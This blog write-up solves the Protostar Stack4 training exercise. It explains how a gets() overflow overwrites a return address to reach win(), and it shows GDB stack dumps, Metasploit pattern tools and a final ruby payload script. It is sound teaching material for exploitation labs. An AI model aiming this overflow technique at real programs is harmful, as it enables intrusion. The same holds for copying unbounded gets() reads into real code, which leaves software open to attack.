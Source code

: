 Author: zlowram
Date: 12-09-2014 23:42
Title: Exploit-exercises Protostar Stack4 write-up 
Template: post
Comments: enabled

In this exercise, we are getting really close to what a classical stack overflow scenario is. However, in stack4 we still don't need a shellcode to solve the exercise, as we are asked again to
redirect the execution flow to a function called win().

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

This time we don't have a pointer to a function that we can overwrite to
redirect the execution flow to the win() function. Instead, we have to
overwrite the ret address.

We take a look at how would be the stack layout for this process:

```markup
+------------+ Lower addresses
|    ...     | 
+------------+ <-- ESP
|   buffer   | 
|     .      | 
|     .      |
+------------+ <-- EBP
| stored_ebp | 
+------------+
|    ret     | 
+------------+
|    argc    | 
+------------+
|    argv    | 
+------------+
|    ...     | 
+------------+ Higher addresses
```

As we can see, we should fill the buffer and overwrite the stored EBP in order
to reach the ret address. The next step then, is to calculate the padding
needed to overwrite the ret address. This time we cannot use the same method as
in the previous exercises, because the ret address is not immediately after the
buffer and the compilar padding can also increase the bytes needed.

To calculate the padding needed, we can do it either manually with GDB and a
coredump file, or with the tools provided with metasploit.

### GDB

To do it manually, it is important to have in mind the stack layout detailed
above, as we need to calculate the difference between the start of the buffer
and the ret address.

First we need to know where starts the buffer, by filling the first 4 bytes of
it with a known value, such as "AAAA", and then looking for it in the stack
with GDB. We place a breakpoint just after the call to gets() and let it run
until it stops, to look at the stack.

```markup
(gdb) x/32x $esp
0xbffff780:     0xbffff790      0xb7ec6165      0xbffff798      0xb7eada75
0xbffff790:     0x41414141      0x08049500      0xbffff7a8      0x080482e8
0xbffff7a0:     0xb7ff1040      0x080495ec      0xbffff7d8      0x08048449
0xbffff7b0:     0xb7fd8304      0xb7fd7ff4      0x08048430      0xbffff7d8
0xbffff7c0:     0xb7ec6365      0xb7ff1040      0x0804843b      0xb7fd7ff4
0xbffff7d0:     0x08048430      0x00000000      0xbffff858      0xb7eadc76
0xbffff7e0:     0x00000001      0xbffff884      0xbffff88c      0xb7fe1848
0xbffff7f0:     0xbffff840      0xffffffff      0xb7ffeff4      0x0804824b
```

It can be clearly seen that our "AAAA" input is at address 0xbffff790, codified
as 0x41414141.

Now we need to get the address of the ret address. Recall that it is right
after the stored EBP, so we can get this info, again, with GDB.

```markup
(gdb) x/32x $ebp                                                                                                       
0xbffff7d8:     0xbffff858      0xb7eadc76      0x00000001      0xbffff884
0xbffff7e8:     0xbffff88c      0xb7fe1848      0xbffff840      0xffffffff
0xbffff7f8:     0xb7ffeff4      0x0804824b      0x00000001      0xbffff840
0xbffff808:     0xb7ff0626      0xb7fffab0      0xb7fe1b28      0xb7fd7ff4
0xbffff818:     0x00000000      0x00000000      0xbffff858      0x9bd07555
0xbffff828:     0xb187c345      0x00000000      0x00000000      0x00000000
0xbffff838:     0x00000001      0x08048340      0x00000000      0xb7ff6210
0xbffff848:     0xb7eadb9b      0xb7ffeff4      0x00000001      0x08048340
```

Looking at the stack print above, the stored EBP is 0xbffff858, thus the ret
address is 0xb7eadc76, which is located at 0xbffff7dc. Then, if we subtract the
address of the buffer from the address of the ret addres, we get the actual
size of the padding, wich is 0xbffff7dc - 0xbffff790 = 0x4c = 76.


### Metasploit

In the tools folder of Metasploit framework there are several useful tools,
from which we will use the ones called pattern_create and pattern_offset.

```markup
$ ./pattern_create.rb 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac
5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

Pattern_crate creates a pattern that should be used as the input to the buffer we
want to overflow, so when the binary crashes the coredump will contain the
invalid ret address that caused the crash. We can open the binary with the
generated coredump to view the crash information and, therefore, obtain that
address.

```markup
$ gdb stack4 /tmp/core.11.stack4.11175
[...]
Core was generated by `./stack4'.
Program terminated with signal 11, Segmentation fault.
#0  0x63413563 in ?? ()
[...]
```

Now, we just need to get the value of the address and pass it as input
to pattern_offset, followed by the length of the pattern used.

```markup
$ ./pattern_offset.rb 0x63413563 100
[*] Exact match at offset 76
```

Now that we already have the size of the padding needed to reach the ret
address, we only need to attach the address of win() in little endian and
we will be done. To get the address we use the same method used in [stack3](/2014/12/9/exploit-exercises-protostar-stack3/).

The final solution is in the following snippet:

```bash
#!/bin/bash

mkfifo pipe
./stack4 < pipe &
ruby -e ' puts "A"*76 + "\xf4\x83\x04\x08" ' > pipe
rm pipe
```
